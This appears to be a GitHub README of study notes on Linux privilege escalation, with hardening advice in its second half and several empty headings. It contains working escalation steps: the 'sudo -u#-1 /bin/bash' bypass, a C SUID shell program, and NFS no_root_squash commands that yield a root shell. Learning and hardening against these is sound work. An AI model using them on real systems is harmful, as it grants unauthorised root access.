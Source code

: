 # Linux-Privilege-Escalation
This document contains a list of privilege escalation techniques in Linux and how to harden the system to prevent them.

[Technicques](https://book.hacktricks.xyz/linux-hardening/privilege-escalation) 

## System Information
Gaining knowledge of system to exploit
|Name|Command|Description|
|---|---|---|
|OS infor| `(cat /proc/version \|\| uname -a ) 2>/dev/null &#13; cat /etc/os-release 2>/dev/null` |Finding version and searching for exploits|
|Path|`echo $PATH`|Find dir inside PATH that has write permission to hijack libraries or binaries|
|Environment|`(env \|\| set) 2>/dev/null`||
|Sudo version|`sudo -V \| grep "Sudo ver" \| grep "1\\.[01234567]\\.[0-9]\\+\\\|1\\.8\\.1[0-9]\\*\\\|1\\.8\\.2[01234567]"`|sudo < v1.28 `sudo -u#-1 /bin/bash`|
|Dmesg signature verification failed|`dmesg 2>/dev/null \| grep "signature"`||
|Enumerate possible defenses|||

## Docker Breakout

## Usefull software
List usefull binaries
```sh
which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc ctr runc rkt kubectl 2>/dev/null
```
Check version of the installed packages and services
```sh
dpkg -l #Debian
rpm -qa #Centos
```
## Scheduled//Cron jobs

## Services

## Timers

## Containerd (ctr) privilege escalation

## RunC privilege escalation

## D-Bus

## Users

## Writeable PATH abuses
### euid, ruid, suid

SUID or GUID, when set, allows the process to execute under the specified user or group.
List all binary with suid/guid:
```cmd
find / -perm -4000 -ls 2>/dev/null
find / -perm -u=s -ls 2>/dev/null
find / -perm -2000 -ls 2>/dev/null
find / -perm -g=s -ls 2>/dev/null
```
Using [GTFOBins](https://gtfobins.github.io/) to privesc and get a shell.

Can write a SetUID binary and get a shell:
```C++
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setresuid(1000, 1000, 1000);
    system("/bin/bash");
    return 0;
}
```
## Shared Object Hijacking

## Capabilities

## ACLs

## NFS no_root_squash/no_all_squash misconfiguration PE
This is a misconfiguration in the NFS configuration. If the options no_root_squash or no_all_squash are found in ```/etc/exports```, then you can access it from a client and write inside that directory as if you were the local root of the machine.
```cmd
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
Or use a **C SUID payloads** (see in [euid, ruid, suid]())

[NFS_privesc](https://www.errno.fr/nfs_privesc.html)

# Hardening (System configuration)
[Linux configuration](https://cyber.gouv.fr/en/publications/configuration-recommendations-gnulinux-system)
## Patririoning
## Account
## Access control
### Unix traditional model
1. Change default usmask for the shell to 0077.
```cmd
echo  'umask 0077' >> /etc/profile'
```
Change default usmask for services to 0027. Thit value can be defined directly in configuration file of the service **(UMask=0027)**.

[Understanding UMASK value](https://www.cyberciti.biz/tips/understanding-linux-unix-umask-value-usage.html)

2. Create a group and ony member in this group can run sudo
```cmd
chmod 760 /usr/bin/sudo
```
3. Sudo configuration guidelines (edit /etc/sudoers)

| Enable | Value |
| ------------- |-------------|
| noexec| applies the **NOEXEC** tag by defaulr on the command|
| requiretty| requires the user to have a tty login|
| use_pty | users a pseudo-tty when a command is executed|
| umask=0077 | forces umask to more restrictive mask |
| ignore_dot | ignores the "." in $PATH|
| env_reset | resets the env variables |

4. Restrict the normal user to run only limited set of commands
- Using restricted shell
```cmd
# create the restricted shell
cp /bin/bash /bin/rbash
# modify the target user
usermod -s /bin/rbash {username}
```
### AppArmor
### SELinux


## Files and directories
### Sensitive files and directories
1. Limiting the rights
2. Changing the secrets and access rights as soon as possible
### Named ipc, sockets or pipes
### Access rights
1. Avoiding files or dir without a known user.
```cmd
find / \( -nouser -o nogroup \) -ls 2>/dev/null
```
2. Set **sticky bit**
3. Ignores setuid / setgid bits and exec right (especial root rights). 
```cmd
chmod 744 {filename}
chmod u-s {filename}
chmod g-s {filename}
```
